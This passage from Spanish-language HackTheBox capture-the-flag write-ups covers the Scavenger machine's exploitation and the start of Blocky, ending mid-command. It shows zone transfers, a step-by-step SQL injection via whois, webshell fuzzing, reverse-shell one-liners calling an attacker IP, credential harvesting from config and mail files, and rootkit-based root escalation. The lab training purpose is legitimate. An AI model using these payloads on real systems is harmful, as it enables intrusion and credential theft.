\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-6}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-6}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-6}{%
\subsubsection*{Ping}\label{ping-6}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.155}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux.
Recuerda que tratandose de ttl, 64 = linux y 128 = windows.
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

\hypertarget{nmap-6}{%
\subsubsection*{Nmap}\label{nmap-6}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.155 }
\end{Highlighting}
\end{Shaded}

Si consideras que va muy lento puedes meter los siguientes parametros para que valla mucho mas rapido

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.155 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p20,21,22,25,43,53,80 10.10.10.155 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
20 & ftp-data & &\tabularnewline
21 & ftp & conectar como anonymous &\tabularnewline
22 & ssh & conexion directa & usuario y contraseña\tabularnewline
25 & smtp & email -\textgreater{} exim & usuario y contraseña\tabularnewline
43 & whois & SUPERSECHOSTING WHOIS (\url{http://www.supersechosting.htb}) &\tabularnewline
53 & domain & Domain zone transfer -\textgreater{} attacke de transferencia de zona &\tabularnewline
80 & http & con el puerto 53 pensamos en virt hosting &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{connectar-al-ftp-como-anonymous}{%
\subsection*{Connectar al ftp como anonymous}\label{connectar-al-ftp-como-anonymous}}
\addcontentsline{toc}{subsection}{Connectar al ftp como anonymous}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.155}
\ExtensionTok{Name}\NormalTok{: anonymous}
\ExtensionTok{password}\NormalTok{: }\OperatorTok{<}\NormalTok{enter}\OperatorTok{>}
\CommentTok{#Output}
\ExtensionTok{530}\NormalTok{ Login incorrect.}
\end{Highlighting}
\end{Shaded}

No nos deja entrar como anonymous

\hypertarget{analyzando-la-web}{%
\subsection*{Analyzando la web}\label{analyzando-la-web}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{checkeamos-la-web-port-el-ip}{%
\subsubsection*{Checkeamos la web port el ip}\label{checkeamos-la-web-port-el-ip}}
\addcontentsline{toc}{subsubsection}{Checkeamos la web port el ip}

Hablan de virtualhosting

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ /etc/hosts}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/scavenger-hosts1} \caption{hosts supersechosting}\label{fig:unnamed-chunk-12}
\end{figure}

Intentamos conectarnos otra vez a la web pero ahora con el url \texttt{http://supersechosting.htb} y tenemos el mismo resultado.

\hypertarget{evaluacion-de-vulnerabilidades-6}{%
\section*{Evaluacion de vulnerabilidades}\label{evaluacion-de-vulnerabilidades-6}}
\addcontentsline{toc}{section}{Evaluacion de vulnerabilidades}

\hypertarget{ataque-de-transferencia-de-zona}{%
\subsection*{Ataque de transferencia de zona}\label{ataque-de-transferencia-de-zona}}
\addcontentsline{toc}{subsection}{Ataque de transferencia de zona}

Para hacer ataques de transferencia de zona, utilizamos la herramienta \textbf{Dig} (que no hay que confundir con Dick ;)\ldots)

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Controlar que la resolucion de dominio funciona

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.155 supersechosting.htb}
\end{Highlighting}
\end{Shaded}
\item
  Como la resolucion funciona vamos a transmitir peticiones dns

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.155 supersechosting.htb ns}
\ExtensionTok{dig}\NormalTok{ @10.10.10.155 supersechosting.htb mx}
\end{Highlighting}
\end{Shaded}
\item
  Ejecutamos el ataque de transferencia de zona

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.155 supersechosting.htb axfr}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui vemos que es vulnerable y vemos unos dominios

\begin{verbatim}
- root.supersechosting.htb
- ftp.supersechosting.htb
- whois.supersechosting.htb
- www.supersechosting.htb
- mail1.supersechosting.htb
- ns1.supersechosting.htb
\end{verbatim}

Los añadimos al \texttt{/etc/hosts}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/scavenger-hosts2} \caption{hosts despues del domain transfer attack}\label{fig:unnamed-chunk-13}
\end{figure}

Lo miramos con firefox y el host \texttt{www.supersechosting.htb} nos muestra algo pero sigue siendo muy poca cosa.

\hypertarget{whois}\NormalTok{ SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37}
\ExtensionTok{%}\NormalTok{ This query returned 0 object}
\end{Highlighting}
\end{Shaded}

Como vemos que MariaDB esta por detras intentamos ponerle una comilla

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{'}
\StringTok{#Output}
\StringTok{% SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37}
\StringTok{1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB...}
\end{Highlighting}
\end{Shaded}

\hypertarget{sql-injection-por-whois}{%
\subsection*{SQL Injection por Whois}\label{sql-injection-por-whois}}
\addcontentsline{toc}{subsection}{SQL Injection por Whois}

Como el mensaje nos da \texttt{the\ right\ syntax\ to\ use\ near\ "\textquotesingle{}\textquotesingle{}")} ya vemos como podemos montarnos el ataque.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{') ORDER BY 100#}
\StringTok{#Output}
\StringTok{Unknown column '}\ExtensionTok{100}\StringTok{' in '}\NormalTok{order clause}\StringTok{'}
\end{Highlighting}
\end{Shaded}

Como vemos que no puede ordenarnos la query por la columna 100 quiere decir que no hay 100 columnas. Investigamos
para encontrar cuantas columnas hay.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{') ORDER BY 4#}
\StringTok{#Output}
\StringTok{Unknown column '}\ExtensionTok{4}\StringTok{' in '}\NormalTok{order clause}\StringTok{'}

\StringTok{nc 10.10.10.155 43}
\StringTok{'}\NormalTok{) }\ExtensionTok{ORDER}\NormalTok{ BY 3#}
\CommentTok{#Output}
\ExtensionTok{Unknown}\NormalTok{ column }\StringTok{'3'}\NormalTok{ in }\StringTok{'order clause'}

\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{') ORDER BY 2#}
\StringTok{#Output}
\StringTok{% This query returned 0 object}
\end{Highlighting}
\end{Shaded}

Ya vemos aqui que hay dos columnas. Podemos aplicar un \textbf{UNION SELECT} para ver las etiquetitas a traves de las cuales
podemos injectar los datos con queries.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{') union select 1,2#}
\StringTok{#Output}
\StringTok{% This query returned 1 object}
\StringTok{1}
\end{Highlighting}
\end{Shaded}

Vemos aqui que injectaremos por la data 1.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Qual es la base de datos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{') union select database(),2#}
\StringTok{#Output}
\StringTok{% This query returned 1 object}
\StringTok{whois}
\end{Highlighting}
\end{Shaded}
\item
  Qual es la version

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{') union select version(),2#}
\StringTok{#Output}
\StringTok{% This query returned 1 object}
\StringTok{10.1.37-MariaDB-0}
\end{Highlighting}
\end{Shaded}
\item
  Qual son las tablas de la base de datos whois

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{') union select table_name,2 from information_schema.tables where table_schema = "whois"#}
\StringTok{#Output}
\StringTok{% This query returned 1 object}
\StringTok{customers}
\end{Highlighting}
\end{Shaded}
\item
  Qual son las columnas de la tabla customers

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers"#}
\StringTok{#Output}
\StringTok{% This query returned 3 object}
\StringTok{iddomaindata}
\end{Highlighting}
\end{Shaded}

  Aqui podria ser turbio y puede ser mejor de enumerar columnas por columnas

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 0,1#}
\StringTok{#Output}
\StringTok\NormalTok{ This query returned 1 object}
\ExtensionTok{domain}

\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 2,1#}
\StringTok{#Output}
\StringTok{% This query returned 1 object}
\StringTok{data}
\end{Highlighting}
\end{Shaded}
\item
  Enumerar lo que hay a dentro de la columna domain

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.155 43}
\StringTok{') union select domain,2 from customers#}
\StringTok{#Output}
\StringTok{% This query returned 4 object}
\StringTok{supersechosting.htbjustanotherblog.htbpwnhats.htbrentahacker.htb}
\end{Highlighting}
\end{Shaded}

  Aqui tambien se podria hacer un limit 0,1 1,1 etc\ldots{}
\end{enumerate}

Ya podemos añadir estos dominios en el \texttt{/etc/hosts}.

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/scavenger-hosts3} \caption{hosts despues del sqli}\label{fig:unnamed-chunk-14}
\end{figure}

Aqui ya intentamos conectar a estos nuevos dominios con Firefox pero sigue siendo lo mismo. Intentamos hacer nuevamente ataques
de zonas con estos nuevos dominios

\hypertarget{ataque-de-transferencia-de-zona-part-2}{%
\subsection*{Ataque de transferencia de zona Part 2}\label{ataque-de-transferencia-de-zona-part-2}}
\addcontentsline{toc}{subsection}{Ataque de transferencia de zona Part 2}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.155 justanotherblog.htb axfr}
\ExtensionTok{dig}\NormalTok{ @10.10.10.155 pwnhats.htb axfr}
\ExtensionTok{dig}\NormalTok{ @10.10.10.155 rentahacker.htb axfr}
\end{Highlighting}
\end{Shaded}

El ultimo dominio nos muestra un dominio turbio \texttt{sec03.rentahacker.htb}. Lo añadimos nuevamente en el \texttt{/etc/hosts} y por firefox
nos conectamos. Por fin algo nuevo.

Esta pagina nos hace pensar que gente ya a hackeado la pagina por otros \emph{Haxxors}. Si es el caso, fuzzeamos la pagina.

\hypertarget{web-fuzzing-con-wfuzz}{%
\subsection*{Web Fuzzing con WFuzz}\label{web-fuzzing-con-wfuzz}}
\addcontentsline{toc}{subsection}{Web Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ}
\end{Highlighting}
\end{Shaded}

Aqui hay un poco de todo. Intentamos fuzzear por archivos \textbf{PHP}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ.php}
\end{Highlighting}
\end{Shaded}

Ya encontramos un fichero \textbf{shell.php}. Visitamos la pagina por firefox y efectivamente parece una shell pero no tenemos el nombre
del comando usado para ejecutar los comandos. Lo buscamos con \textbf{WFUZZ} diciendole de ocultar las respuestas que retornan 0 palabras.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 --hw=0 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/shell.php?FUZZ=whoami}
\end{Highlighting}
\end{Shaded}

encontramos el comando \texttt{hidden}

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-6}{%
\section*{Explotacion de vulnerabilidad \& Ganando acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-6}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando acceso}

\hypertarget{crear-una-reverse-shell-desde-la-webshell}{%
\subsection*{Crear una reverse shell desde la webshell}\label{crear-una-reverse-shell-desde-la-webshell}}
\addcontentsline{toc}{subsection}{Crear una reverse shell desde la webshell}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  En la web

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://sec03.rentahacker.htb/shell.php?hidden=nc -e /bin/bash 10.10.14.20 443}
\ExtensionTok{http}\NormalTok{://sec03.rentahacker.htb/shell.php?hidden=bash -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/tcp/10.10.14.20/443} \OperatorTok{0>&1}
\ExtensionTok{http}\NormalTok{://sec03.rentahacker.htb/shell.php?hidden=bash -c }\StringTok{"bash -i >& /dev/tcp/10.10.14.20/443 0>&1"}
\ExtensionTok{http}\NormalTok{://sec03.rentahacker.htb/shell.php?hidden=bash -c }\StringTok{'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'}
\ExtensionTok{http}\NormalTok{://sec03.rentahacker.htb/shell.php?hidden=whoami }\KeywordTok{|} \ExtensionTok{nc}\NormalTok{ 10.10.14.20 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Como aqui vemos que nada functionna, pensamos que hay reglas que son definidas en el \emph{iptables}

\hypertarget{creamos-una-fakeshell-1}{%
\subsection*{Creamos una FakeShell}\label{creamos-una-fakeshell-1}}
\addcontentsline{toc}{subsection}{Creamos una FakeShell}

En el directorio exploits creamos un fichero \texttt{fakeShell.sh} que contiene

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\KeywordTok{function}\FunctionTok{ ctrl_c()}\KeywordTok{\{}
    \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n\textbackslash{}n[!] Saliendo...\textbackslash{}n"}
    \BuiltInTok{exit}\NormalTok{ 1}
\KeywordTok{\}}

\CommentTok{# Ctrl+C}
\BuiltInTok{trap}\NormalTok{ ctrl_c INT}

\CommentTok{# Variables globales}
\BuiltInTok{declare}\NormalTok{ -r }\VariableTok{main_url=}\StringTok{"http://sec03.rentahacker.htb/shell.php"}

\KeywordTok{while} \FunctionTok{true}\KeywordTok{;} \KeywordTok{do}
    \BuiltInTok{echo}\NormalTok{ -n }\StringTok{"[~] "} \KeywordTok{&&} \BuiltInTok{read}\NormalTok{ -r }\VariableTok{command}
    \BuiltInTok{echo}\KeywordTok{;} \ExtensionTok{curl}\NormalTok{ -s -X GET -G }\VariableTok{$main_url}\NormalTok{ --data-urlencode }\StringTok{"hidden=}\VariableTok{$command}\StringTok{"}\KeywordTok{;} \BuiltInTok{echo}
\KeywordTok{done}
\end{Highlighting}
\end{Shaded}

Ya lo podemos lanzar con el comando \texttt{rlwrap\ ./fakeShell.sh}

\begin{quote}
{[} ! {]} Notas: Las explicaciones del script se pueden ver en el video live en el minuto 1:15:38
\end{quote}

Tambien se podria utilizar la herramienta creada por s4vitar \href{https://github.com/s4vitar/ttyoverhttp}{ttyoverhttp}

\hypertarget{enumeramos-el-equipo}{%
\subsection*{Enumeramos el equipo}\label{enumeramos-el-equipo}}
\addcontentsline{toc}{subsection}{Enumeramos el equipo}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l /home}
\FunctionTok{whoami}
\FunctionTok{ls}\NormalTok{ -l /home/ib01c03}
\FunctionTok{ls}\NormalTok{ wp-config.php}
\FunctionTok{find}\NormalTok{ \textbackslash{}-name wp-config.php}
\FunctionTok{find}\NormalTok{ / \textbackslash{}-name wp-config.php}
\FunctionTok{cat}\NormalTok{ /home/ib01c03/www/wp-config.php}
\end{Highlighting}
\end{Shaded}

Vemos un fichero comprimido de wordpress. Buscamos el fichero de configuracion de wordpress que suele tener credenciales en
texto claro. Una vez encontrado lo miramos con \texttt{cat}. Encontramos usuario y contraseña para el servicio mysql. Aqui no hay nada interesante.

\hypertarget{chequeamos-ficheros-del-servicio-smtp}{%
\subsection*{Chequeamos ficheros del servicio SMTP}\label{chequeamos-ficheros-del-servicio-smtp}}
\addcontentsline{toc}{subsection}{Chequeamos ficheros del servicio SMTP}

Los ficheros de email suelen ser guardados en el \texttt{/var/spool/mail}. Aqui vemos dos ficheros y une tiene credenciales para el \textbf{FTP} en texto claro.

\hypertarget{conexion-por-ftp}{%
\subsection*{Conexion por ftp}\label{conexion-por-ftp}}
\addcontentsline{toc}{subsection}{Conexion por ftp}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.155}
\ExtensionTok{Name}\NormalTok{: ib01ftp}
\ExtensionTok{Password}\NormalTok{: }
\end{Highlighting}
\end{Shaded}

ya hemos podido entrar en la maquina. Vemos archivos y nos los descargamos a la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{binary}
\ExtensionTok{prompt}\NormalTok{ off}
\ExtensionTok{mget}\NormalTok{ *}
\end{Highlighting}
\end{Shaded}

Hay ficheros interesantes como \texttt{notes.txt} o \texttt{ib01c01.access.log} que nos dan pistas pero nosotros vamos a por el fichero \texttt{ib01c01\_incident.pcap}

\hypertarget{investigamos-el-fichero-pcap-con-tshark}{%
\subsection*{Investigamos el fichero pcap con TShark}\label{investigamos-el-fichero-pcap-con-tshark}}
\addcontentsline{toc}{subsection}{Investigamos el fichero pcap con TShark}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tshark}\NormalTok{ -r ib01c01_incident.pcap}
\ExtensionTok{tshark}\NormalTok{ -r ib01c01_incident.pcap -Y }\StringTok{"http.request.method==POST"} \OperatorTok{2>}\NormalTok{/dev/null}
\ExtensionTok{tshark}\NormalTok{ -r ib01c01_incident.pcap -Y }\StringTok{"http.request.method==POST"}\NormalTok{ -Tjson }\OperatorTok{2>}\NormalTok{/dev/null}
\ExtensionTok{tshark}\NormalTok{ -r ib01c01_incident.pcap -Y }\StringTok{"http.request.method==POST"}\NormalTok{ -Tfields -e tcp.payload }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \ExtensionTok{xxd}\NormalTok{ -ps -r}
\end{Highlighting}
\end{Shaded}

Analizando aqui encontramos passwords que son codeadas en url-encode. Tratamos de conectar con el usuario de estos ficheros \texttt{ib01c01} con la
nueva contraseña y pa dentro. Ya podemos ver el fichero \textbf{user.txt}

\hypertarget{continuacion-de-la-investigacion-con-wireshark}{%
\subsection*{Continuacion de la investigacion con Wireshark}\label{continuacion-de-la-investigacion-con-wireshark}}
\addcontentsline{toc}{subsection}{Continuacion de la investigacion con Wireshark}

Aqui llegamos a una parte bastante complicada de explicar por escrito. Mejor verlo directamente con el video desde el minuto 1:40:45
De echo esta parte explica como encuentra un modulo rootkit en el sistema y explica como tratarla.

\hypertarget{escalada-de-privilegios-5}{%
\section*{Escalada de privilegios}\label{escalada-de-privilegios-5}}
\addcontentsline{toc}{section}{Escalada de privilegios}

\hypertarget{rootear-la-maquina-2}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-2}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

La escalada de privilegio aqui se hace utilizando el rootkit.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l /dev/ttyR0}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el rootkit esta instalado. Continuamos con lo que la web del rootkit nos dice.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"g0tR0ot"} \OperatorTok{>}\NormalTok{ /dev/ttyR0}\KeywordTok{;} \FunctionTok{id}
\end{Highlighting}
\end{Shaded}

Pero no functionna. Pensamos aqui que los atacantes que han instalado el rootkit cambiaron la contraseña.
Segun la web, la contraseña se encuentra en un fichero \texttt{root.ko} y mirandolo bien hay un directorio que se
llama \texttt{...} (Que cabron)

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ ...}
\ExtensionTok{binary}
\ExtensionTok{get}\NormalTok{ root.ko}
\end{Highlighting}
\end{Shaded}

Una vez descargado y como es un binario, tratamos de ver lo que pasa a mas bajo nivel con \textbf{radare2}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{radare2}\NormalTok{ root.ko}
\ExtensionTok{aaa}
\ExtensionTok{afl}
\ExtensionTok{sym.root_write}
\ExtensionTok{pdf}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/radare2rootko} \caption{radare2 root.ko}\label{fig:unnamed-chunk-15}
\end{figure}

Vemos esta parte interesante y probamos una vez mas con:

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"g3tPr1v"} \OperatorTok{>}\NormalTok{ /dev/ttyR0}\KeywordTok{;} \FunctionTok{whoami}

\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

Ya estamos root y podemos ver la flag.

\hypertarget{blocky}{%
\chapter*{Blocky}\label{blocky}}
\addcontentsline{toc}{chapter}{Blocky}

\hypertarget{introduccion-7}{%
\section*{Introduccion}\label{introduccion-7}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 30/07/2021 se llama Blocky
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=LPh8BTqEx2c}{\includegraphics{https://img.youtube.com/vi/LPh8BTqEx2c/0.jpg}}

No olvideis dejar un like al video y un comentario\ldots{}

\hypertarget{enumeracion-7}{%
\section*{Enumeracion}\label{enumeracion-7}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-7}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-7}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-7}{%
\subsubsection*{Ping}\label{ping-7}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.37}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux.
Recuerda que en cuanto a ttl se trata, 64 = linux y 128 = windows.
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

\hypertarget{nmap-7}{%
\subsubsection*{Nmap}\label{nmap-7}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.37 }
\end{Highlighting}
\end{Shaded}

si consideras que va muy lento el escaneo puedes poner los siguientes parametros para que valla mucho mas rapido

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.37 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p21,22,80,25565 10.10.10.37 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
21 & ftp & conectar como anonymous &\tabularnewline
22 & ssh & conexion directa & usuario y contraseña\tabularnewline
80 & http & Analisis de la web y Fuzzing &\tabularnewline
25565 & minecraft & con el puerto 53 pensamos en virt hosting &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{conectar-al-ftp-como-anonymous}{%
\subsection*{Conectar al ftp como anonymous}\label{conectar-al-ftp-como-anonymous}}
\addcontentsline{toc}{subsection}{Conectar al ftp como anonymous}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.37}
\ExtensionTok{Name}\NormalTok{: anonymous}
\ExtensionTok{password}\NormalTok{: }\OperatorTok{<}\NormalTok{enter}\OperatorTok{>}
\CommentTok{#Output}
\ExtensionTok{530}\NormalTok{ Login incorrect.}
\end{Highlighting}
\end{Shaded}

No nos deja entrar como anonymous

\hypertarget{analizando-la-web-1}{%
\subsection*{Analizando la web}\label{analizando-la-web-1}}
\addcontentsline{toc}{subsection}{Analizando la web}

\hypertarget{whatweb-4}{%
\subsubsection*{Whatweb}\label{whatweb-4}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.37}
\end{Highlighting}
\end{Shaded}

Aqui vemos que estamos en un Wordpress

\hypertarget{http-enum-1}{%
\subsubsection*{http-enum}\label{http-enum-1}}
\addcontentsline{toc}{subsubsection}{http-enum}

Lanzamos un web scan con nmap.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p80 10.10.10.37 -oN webScan}
\end{Highlighting}
\end{Shaded}

Ya nos detecta un \texttt{/phpmyadmin/} y ficheros de wordpress

\hypertarget{chequear-la-web-del-puerto-80}{%
\subsubsection*{Chequear la web del puerto 80}\label{chequear-la-web-del-puerto-80}}
\addcontentsline{toc}{subsubsection}{Chequear la web del puerto 80}

Con firefox navegamos en la web para ver lo que es.

\begin{itemize}
\tightlist
\item
  wappalizer nos dice que es Wordpress
\item
  Vemos que la web esta under construction
\item
  Si pinchamos el post vemos que es el usuario NOTCH que lo a echo
\end{itemize}

Como es un wordpress intentamos ir al \texttt{http://10.10.10.37/wp-login.php} y miramos si hay el usuario NOTCH.
Efectivamente el usuario NOTCH existe.

Vamos a por el \texttt{http://10.10.10.37/phpmyadmin/} y buscamos previamente en google si encontramos credenciales por
defecto pero no funcionan.

Tenemos que ir buscando mas rutas.

\hypertarget{fuzzing-con-wfuzz}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.37/WFUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos un ruta plugins que no suele ser normal porque en wordpress los plugins suelen estar en \texttt{/wp-content/plugins} y no
en \texttt{/plugins} directamente

Aqui encontramos dos ficheros \texttt{.jar}. Los descargamos en nuestra maquina de atacante.

\hypertarget{evaluacion-de-vulnerabilidades-7}{%
\section*{Evaluacion de vulnerabilidades}\label{evaluacion-de-vulnerabilidades-7}}
\addcontentsline{toc}{section}{Evaluacion de vulnerabilidades}

\hypertarget{analizamos-los-ficheros}{%
\subsection*{Analizamos los ficheros}\label{analizamos-los-ficheros}}
\addcontentsline{toc}{subsection}{Analizamos los ficheros}

Los ficheros \texttt{.jar} son ficheros comprimidos que se pueden descomprimir con la herramienta \texttt{unzip}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{unzip}\NormalTok{ BlockyCore.jar}
\FunctionTok{unzip}\NormalTok{ griefprevention-1.11.2-3.1.1.298.jar}
\end{Highlighting}
\end{Shaded}

Ya tenemos ficheros \texttt{.class} que podemos analizar con \textbf{strings} o mejor con \textbf{javap}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{javap}\NormalTok{ -c Blockycore.class}
